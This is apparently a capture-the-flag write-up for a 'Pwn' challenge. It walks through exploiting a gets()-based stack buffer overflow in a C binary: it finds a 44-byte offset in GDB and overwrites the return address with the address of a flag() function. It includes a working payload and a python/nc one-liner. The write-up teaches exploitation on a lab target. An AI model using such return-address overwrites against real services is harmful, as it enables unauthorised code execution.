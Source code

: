 # Overflowo
* **Category:** Pwn
* **Points:** 300
## Problem

i made an owoifier!

`nc challenges.ctfd.io 30061`

## Solution
In this challenge, we'll be using a buffer overflow. With this strategy, we can overflow the space allocated on the stack for variables, and overwrite other pieces of memory.

If we examine the source code, we can see that there's a `flag()` function that will read a `flag.txt` file and print it out. However, this function is never called anywhere in the rest of the code.
Another function of interest is `vuln()`: 

```c
void vuln() {
	char owo[32];
	puts("Welcome to the owoifier!");
	printf("Please input a string to be owoified: ");
	gets(owo);
	printf("jk this owoifier sucks but here's what you input: %s\ni tried umu\n", owo);
}
```
In the code above, the buffer variable was initialized using `char owo[32];`. This creates an array of 32 characters, which can be used to store 32 characters of user input.
If we input more than 32 characters, the buffer variable would overflow, and we could start overwriting other bits of memory.
This is because the gets() function is not secure; it does not check if the user input overflows the buffer variable.

Our goal in this challenge is to overflow the buffer variable, which will let us overwrite the return address on the stack and set it to the `flag()` function. The return address is stored somewhere below the buffer variable on the stack, so we need figure out how many bytes we have to input before we reach the return address.
To do this, we can use GDB. To open the binary in GDB, we can use `gdb vuln`.
Next, we can run it:
```
(gdb) run
```
At this point, we can use a pattern generator tool to find the number of bytes we need. We can use [this website](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) to generate a pattern and calculate the offset.
```
Welcome to the owoifier!
Please input a string to be owoified: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
jk this owoifier sucks but here's what you input: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
i tried umu

Program received signal SIGSEGV, Segmentation fault.
0x35624134 in ?? ()
```
Plugging `0x35624134` back into the website, we get `44` as the offset. This means we need 44 bytes of junk to overflow the variable and overwrite random things on the stack until we get to the return address.

Thus, the first part of our payload shall be `'A'*44`.

Next, we need to find the address of `flag()` so that we can use it to replace the return address on the stack. We can use GDB for this as well:
```
(gdb) info func
All defined functions:

Non-debugging symbols:
0x080483e8  _init
0x08048420  setbuf@plt
...
0x080485cb  flag
0x0804862f  vuln
...
```
This tells us the address of the `flag()` function is `0x080485cb`. Now all we need to do is add it to the payload.

When we add the address, we need to make sure to format it in little endian, in which the bytes are backwards. So, instead of `\x08\x04\x85\xcb` we will have `\xcb\x85\x04\x08`.

Our final payload will be:
```sh
'A'*44 + '\xcb\x85\x04\x08'
```
We can use Python to pipe our payload:
```sh
python -c "print('A'*44 + '\xcb\x85\x04\x08')" | nc challenges.ctfd.io 30061
```
This will output:
```
Welcome to the owoifier!
Please input a string to be owoified: jk this owoifier sucks but here's what you input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA˅
i tried umu
cctf{uwu_my_owo_buff3r}
Segmentation fault      (core dumped) ./vuln
```

Flag: `cctf{uwu_my_owo_buff3r}`
